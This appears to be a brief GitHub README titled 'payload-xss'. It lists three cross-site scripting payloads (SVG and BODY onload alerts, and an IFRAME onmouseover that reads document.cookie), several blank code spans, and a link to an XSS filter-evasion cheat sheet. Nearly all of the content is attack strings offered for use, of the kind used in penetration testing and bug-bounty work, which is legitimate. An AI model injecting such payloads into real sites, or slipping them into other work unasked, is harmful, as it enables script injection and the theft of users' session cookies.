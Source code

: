 # payload-xss

`<svg/onload=alert('XSS')>`

`<BODY ONLOAD=alert('XSS')>`

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

``

``

``

``

``

``

``

``

``

<!-- `` -->


# REFERENCE:
https://xn4k.github.io/pentest/bug%20bounty/ethical%20hacking/XSS-Filter-Evasion-Cheat-Sheet/
